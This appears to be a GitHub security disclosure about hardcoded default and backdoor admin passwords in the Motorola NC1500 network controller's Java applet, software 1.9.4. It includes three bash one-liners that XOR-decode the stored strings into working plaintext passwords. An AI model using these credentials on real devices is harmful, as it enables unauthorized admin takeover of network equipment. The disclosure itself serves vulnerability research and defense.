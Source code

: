 # nc1500
Motorola NC1500 Backdoor Password

![alt text](https://github.com/billchaison/nc1500/raw/main/mot.png)

The Motorola NC1500 Hybrid Fiber Coax (HFC) Network Controller has a default and backdoor password present in the `nc1500.jar` Java applet that is served from the device's web page.  The credentials are present in software version 1.9.4.

The web page on the device presents a user with this login page.  If you enter an incorrect password you gain read-only privileges.  Entering one of the correct passwords grants admin privileges.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo1.png)

The backdoor and default passwords appear as XOR encoded strings in the `NC1500Applet.class` file.  The decoding function also appears in the same file, which transforms each character to plaintext using 0x40.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo2.png)<br />
![alt text](https://github.com/billchaison/nc1500/raw/main/mo3.png)

The following bash one-liners produce the plaintext passwords.

```bash
a='%33%.#%```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='-/4/2/,!``'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='$%6%,/0```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```
